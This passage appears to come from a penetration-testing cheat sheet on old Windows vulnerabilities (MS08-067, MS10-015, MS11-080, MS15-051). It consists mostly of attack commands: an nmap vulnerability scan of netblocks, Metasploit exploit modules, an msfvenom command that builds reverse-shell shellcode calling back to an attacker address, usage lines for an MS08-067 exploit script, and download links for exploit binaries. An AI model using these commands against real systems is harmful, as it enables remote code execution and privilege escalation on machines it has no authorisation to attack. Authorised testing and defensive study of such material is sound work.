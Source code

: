 ```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```

### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

```powershell
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```

